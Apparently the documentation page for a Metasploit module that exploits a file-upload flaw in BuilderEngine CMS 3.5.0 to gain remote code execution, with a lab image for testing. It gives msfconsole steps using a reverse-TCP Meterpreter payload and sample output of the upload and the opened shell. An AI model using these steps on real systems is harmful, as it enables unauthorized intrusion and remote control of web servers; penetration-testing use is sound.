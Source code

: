 BuilderEngine is a Content Management System (CMS) that is Open Source, and includes blog, eCommerce,
booking modules, etc. A vulnerability was found in the jQuery upload plugin, which could be abused
upload a malicious file, which would result in arbitrary remote code execution under the context of
the web server.

## Vulnerable Application

According to public advisory, BuilderEngine 3.5.0 is vulnerable to this attack.

A vulnerable copy was collected by Exploit-DB, which can be downloaded here:

https://www.exploit-db.com/apps/8d2daf441809dcd86398d3d750d768b5-BuilderEngine-CMS-V3.zip

Another way to test this exploit is by using the Sedna image:

https://www.vulnhub.com/entry/hackfest2016-sedna,181/#

## Verification Steps

To see if the service is running BuilderEngine, you may use the check command from the module.
If the resource is found, then you may see the following output:

```
msf exploit(builderengine_upload_exec) > check
[*] 192.168.1.123:80 The target appears to be vulnerable.
```

Knowing that the ```jquery-file-upload``` plugin is available, you can try the by following these
steps:

1. In msfconsole, do ```exploit/multi/http/builderengine_upload_exec```
2. ```set RHOST [Target IP]```
3. ```set PAYLOAD php/meterpreter/reverse_tcp```
4. ```set LHOST [Your IP]```
5. ```exploit```

If exploited successfully, you should see an output similar to the following:

```
msf exploit(builderengine_upload_exec) > exploit

[*] Started reverse TCP handler on 192.168.1.1:4444 
[+] Our payload is at: RnrXvNHDaQA.php. Calling payload...
[*] Calling payload...
[*] Sending stage (33986 bytes) to 192.168.1.123
[*] Meterpreter session 3 opened (192.168.1.1:4444 -> 192.168.1.123:51354) at 2017-05-16 14:44:14 -0500
[+] Deleted RnrXvNHDaQA.php

meterpreter > 
```
